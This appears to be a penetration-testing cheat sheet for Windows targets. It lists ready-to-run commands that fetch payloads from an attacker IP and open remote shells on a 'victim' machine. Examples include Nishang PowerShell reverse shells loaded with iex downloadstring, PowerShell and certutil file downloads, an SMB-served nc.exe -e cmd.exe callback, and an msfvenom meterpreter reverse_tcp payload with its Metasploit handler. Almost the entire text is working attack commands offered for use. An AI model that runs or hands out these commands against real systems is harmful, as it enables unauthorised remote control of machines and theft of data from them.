 ### Windows

#### Nishang
- git clone [Nishang](https://github.com/samratashok/nishang)
- edit InvokePowerShellTcp.ps1 /nishang/Shells/
paste *Invoke-PowerShellTcp -Reverse -IPAddress [your_ip] -Port [your_port]* on bottom of the file.
- run python HTTP server
  -python -m SimpleHTTPServer 443
  -python3 -m http.server 443
-In the victim shell: 
  powershell iex(new-object System.net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Powershell
powershell -ExecutionPolicy Bypass -File wget.ps1 http://[your_ip:port]/file file

echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

##### PowerShell file download
```
powershell iex(new-object System.net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[your_ip:port]/wget.exe','C:\Destination\path\wget.exe')"

##### powershell wget http://[your_ip:port]
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### smbserver

- smbserver.py
```
git clone [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
```
create directory (for example test)
```
cp nc.exe to your_file_directory_path
```
run smbserver
```
python smbserver.py test your_file_directory_path (example: python smbserver.py test /root/mysmbfile
```
run local nc
```
nc -lnvp 443
```
In the victim shell
```
\\[your_ip]\test\nc.exe -e cmd.exe [your_ip]
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### certutil
```
certutil -urlcache -f http://[your_ip]/file output_file_name
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Meterpreter
- create msfvenom payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[you_ip] LPORT=[your_port] -f asp > rs.asp

- use mstfconsole
exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost, lport and run

- execute reverse shell
curl http://10.10.10.5/rs.asp
